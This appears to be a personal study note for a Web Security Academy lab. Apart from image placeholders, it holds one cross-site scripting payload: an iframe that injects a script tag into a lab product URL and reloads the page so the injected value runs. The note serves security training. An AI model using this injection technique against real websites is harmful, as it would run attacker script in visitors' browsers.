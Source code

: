 ![[Pasted image 20220808204620.png]]

![[Pasted image 20220808204815.png]]

iframe src="https://0af400d7048c8634c02e9501003b00a1.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://0af400d7048c8634c02e9501003b00a1.web-security-academy.net';window.x=1;"

![[Pasted image 20220808205122.png]]

![[Pasted image 20220808205147.png]]

